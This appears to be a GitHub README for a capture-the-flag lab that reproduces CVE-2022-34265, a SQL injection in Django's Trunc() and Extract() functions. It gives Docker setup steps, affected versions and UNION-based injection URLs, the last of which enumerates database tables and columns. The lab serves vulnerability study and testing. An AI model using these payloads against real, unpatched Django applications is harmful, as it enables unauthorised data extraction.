 ﻿# CTF_CVE-2022-34265

## Description

An issue was discovered in Django 3.2 before 3.2.14 and 4.0 before 4.0.6. The `Trunc()` and `Extract()` database functions are subject to SQL injection if untrusted data is used as a kind/lookup_name value. Applications that constrain the lookup name and kind choice to a known safe list are unaffected.

## How to use

### Start

```bash
git clone https://github.com/coco0x0a/CTF_CVE-2022-34265
cd CVE-2022-34265
sudo docker-compose up -d
```
### Check status

```bash
sudo docker ps
```

### Remove

```bash
sudo docker-compose down
```

## Affected Versions

* Django>= 3.2, < 3.2.14

* Django >= 4.0, < 4.0.6

## Patched versions

* Django 3.2.14

* Django 4.0.6

## Verification

### Environment

* Django 4.0.5
* Python 3.8.13
* MySQL 5.7

### sql injection
using `UNION`

```
http://127.0.0.1:8000/extract/?lookup_name=year%20FROM%20start_datetime))%20OR%201=1%20UNION%20SELECT%201--
http://127.0.0.1:8000/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, 2, 3, 4, 5, 6, 7--
http://127.0.0.1:8000/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT 1, now(), now(), now(), now(), now(), now()--
http://127.0.0.1:8000/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT "TEST", now(), now(), now(), now(), now(), now()--
http://127.0.0.1:8000/extract/?lookup_name=year FROM start_datetime)) OR 1=1 UNION SELECT CONCAT(table_name, '~', column_name), now(), now(), now(), now(), now(), now() FROM information_schema.columns--
```
![image](https://user-images.githubusercontent.com/96345719/189233913-96222506-3b01-48ab-9a4f-a9e0ab7b4599.png)

## Reference
https://github.com/aeyesec/CVE-2022-34265

https://github.com/ZhaoQi99/CVE-2022-34265

https://github.com/suksit/writeups/tree/main/secplayground/half-year-event-2022
